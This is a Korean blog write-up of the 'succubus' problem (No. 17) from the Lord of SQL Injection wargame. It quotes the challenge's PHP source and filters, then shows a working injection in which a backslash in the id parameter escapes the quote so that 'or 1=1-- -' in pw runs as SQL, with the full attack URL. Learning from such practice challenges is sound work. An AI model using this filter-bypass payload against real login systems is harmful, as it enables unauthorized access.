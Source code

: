 ```yaml
---
title: Lord of SQL Injection Write Up No.17 Succubus
date: 2019-09-07 21:58:07
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 17번 succubus 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

`\`(백슬래시) 문자를 이용하여 SQL Injection을 할 수 있는지 확인한다.

### 소스 코드 분석

succubus 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/\'/i', $_GET[id])) exit("HeHe");
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("succubus");
  highlight_file(__FILE__);
?>
```

#### Filter

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/\'/i', $_GET[id])) exit("HeHe");
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe");
```

- GET 방식으로 `id`와 `pw`를 받고, `id`나 `pw`에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.
- 또한, 이번엔 `preg_match` 함수를 써서 `id`나 `pw`에 `'` 이 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

#### Query

```php
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("succubus");
```

- 받은 `id`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `id`에 참이 되는 어떤 문자열이든 들어있음'이다.

## Solution

1. 문자 Escape 이용

   바로 전 단계 문제와 유사하나 이번에는 `'`을 `preg_match` 함수로 필터링하여 우회하기 어렵게 만들었다.
   따라서 이번에는 함수를 우회하기보다 SQL문이 문자열로 인식하는 부분을 우회하여 풀면 편하다.

   ```php
   if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
   if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
   if(preg_match('/\'/i', $_GET[id])) exit("HeHe");
   if(preg_match('/\'/i', $_GET[pw])) exit("HeHe");
   ```

   필터링하는 부분을 보면 `\`, 즉 백슬래시는 필터링하지 않고 있다.
   SQL문에서 `\`를 이용하여 `'`, `"`, `` ` `` 등을 이스케이프 해 주면 문자열에서 쓸 수 있게 인식한다.
   따라서 id 입력값으로 `\`, pw 입력값으로 `or 1=1-- -` 과 같이 `and pw=`가 문자열로 인식되고 그 후 `' or 1=1-- -`이 SQL문으로써 작동하도록 하면 문제가 풀리게 된다.

   ```url
   http://los.eagle-jump.org/succubus_8ab2d195be2e0b10a3b5aa2873d0863f.php?id=\&pw= or 1=1-- -
   ```

   ```sql
   select id from prob_succubus where id='\' and pw=' or 1=1-- -'
   ```
